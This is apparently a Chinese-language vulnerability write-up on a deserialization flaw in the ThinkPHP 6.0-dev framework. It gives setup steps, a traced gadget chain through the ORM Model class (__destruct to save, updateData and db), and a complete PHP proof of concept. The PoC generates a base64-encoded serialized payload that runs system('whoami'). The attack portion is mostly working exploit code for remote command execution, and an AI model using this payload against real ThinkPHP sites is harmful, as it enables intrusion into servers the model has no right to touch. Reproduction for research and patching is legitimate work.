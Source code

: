 Thinkphp 6.0.\-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=6.0.-dev v6.0

### poc演示截图

![](resource/Thinkphp6.0.-dev反序列化漏洞/media/rId27.png)

### 调用链

![](resource/Thinkphp6.0.-dev反序列化漏洞/media/rId29.png)

### 单步调试

    //vendor\topthink\think-orm\src\Model.php
    public function __destruct()
    {
        if ($this->lazySave) {  //$this->lazySave可控
            $this->save();
        }
    }
    //vendor\topthink\think-orm\src\Model.php
    public function save(array $data = [], string $sequence = null): bool
    {
        // 数据对象赋值
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
           return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence); //this->exists可控

        if (false === $result) {
           return false;
        }
    //vendor\topthink\think-orm\src\Model.php
    public function isEmpty(): bool
    {
        return empty($this->data);    //可控
    }
    protected function trigger(string $event): bool
    {
        if (!$this->withEvent) {       //可控
            return true;
        }
        ...
    }
    protected function updateData(): bool
    {
        // 事件回调
        if (false === $this->trigger('BeforeUpdate')) {   //可控
           return false;
        }

        $this->checkData();

        // 获取有更新的数据
        $data = $this->getChangedData();  

        if (empty($data)) {         //$data可控
           // 关联更新
           if (!empty($this->relationWrite)) {
             $this->autoRelationUpdate();
           }

           return true;
        }

        if ($this->autoWriteTimestamp && $this->updateTime && !isset($data[$this->updateTime])) {
           // 自动写入更新时间
           $data[$this->updateTime]       = $this->autoWriteTimestamp($this->updateTime);
           $this->data[$this->updateTime] = $data[$this->updateTime];
        }

        // 检查允许字段
        $allowFields = $this->checkAllowFields();
    public function getChangedData(): array
    {
        $data = $this->force ? $this->data : array_udiff_assoc($this->data, $this->origin, function ($a, $b) {
           if ((empty($a) || empty($b)) && $a !== $b) {
             return 1;
           }
        //$this->force可控
           return is_object($a) || $a != $b ? 1 : 0;
        });

        // 只读字段不允许更新
        foreach ($this->readonly as $key => $field) {
           if (isset($data[$field])) {
             unset($data[$field]);
           }
        }

        return $data;
    }
    protected function checkAllowFields(): array
    {
        // 检测字段
        if (empty($this->field)) {   //$this->field可控
           if (!empty($this->schema)) {  //$this->schema可控
             $this->field = array_keys(array_merge($this->schema, $this->jsonType));
           } else {
             $query = $this->db();
             $table = $this->table ? $this->table . $this->suffix : $query->getTable();
    public function db($scope = []): Query
    {
        /** @var Query $query */
        $query = self::$db->connect($this->connection)   //$this->connection可控
           ->name($this->name . $this->suffix)   //$this->suffix可控，采用拼接，调用_toString
           ->pk($this->pk);

后面的链跟之前的一样，这里就不分析了

![](resource/Thinkphp6.0.-dev反序列化漏洞/media/rId31.png)

### poc v6.0.\-dev

    <?php
    /**
     * Created by PhpStorm.
     * User: wh1t3P1g
     */

    namespace think\model\concern {
        trait Conversion{
            protected $visible;
        }
        trait RelationShip{
            private $relation;
        }
        trait Attribute{
            private $withAttr;
            private $data;
            protected $type;
        }
        trait ModelEvent{
            protected $withEvent;
        }
    }

    namespace think {
        abstract class Model{
            use model\concern\RelationShip;
            use model\concern\Conversion;
            use model\concern\Attribute;
            use model\concern\ModelEvent;
            private $lazySave;
            private $exists;
            private $force;
            protected $connection;
            protected $suffix;
            function __construct($obj)
            {
                if($obj == null){
                    $this->data = array("wh1t3p1g"=>"whoami");
                    $this->relation = array("wh1t3p1g"=>[]);
                    $this->visible= array("wh1t3p1g"=>[]);
                    $this->withAttr = array("wh1t3p1g"=>"system");
                }else{
                    $this->lazySave = true;
                    $this->withEvent = false;
                    $this->exists = true;
                    $this->force = true;
                    $this->data = array("wh1t3p1g"=>[]);
                    $this->connection = "mysql";
                    $this->suffix = $obj;
                }
            }
        }
    }


    namespace think\model {
        class Pivot extends \think\Model{
            function __construct($obj)
            {
                parent::__construct($obj);
            }
        }
    }


    namespace {
        $pivot1 = new \think\model\Pivot(null);
        $pivot2 = new \think\model\Pivot($pivot1);
        echo base64_encode(serialize($pivot2));
